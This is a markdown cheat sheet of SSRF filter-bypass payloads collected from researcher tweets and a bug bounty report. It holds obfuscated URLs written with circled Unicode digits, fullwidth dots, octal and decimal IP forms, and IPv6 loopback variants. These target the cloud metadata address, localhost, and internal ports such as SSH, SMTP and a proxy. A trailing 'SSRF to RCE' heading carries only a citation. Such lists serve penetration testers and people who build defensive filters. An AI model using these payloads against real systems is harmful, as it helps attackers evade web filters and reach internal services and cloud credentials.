


## SSRF WAF BYPASSES 
*[tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)*



```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```
------------------------------------------------------------------------------------
*[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)*
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```

*[Report #736867](https://hackerone.com/reports/736867) by [foobar7](https://twitter.com/foobar0x7)*  
```
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
```
---------------------------------------------------------------------------------------
## SSRF to RCE

*[tweet](https://twitter.com/intigriti/status/1248222721399500801?s=20) By [Intigriti](https://twitter.com/intigriti/),*
*Tip by Shoeb Patel([0xCaptainFreak](https://twitter.com/0xCaptainFreak))*




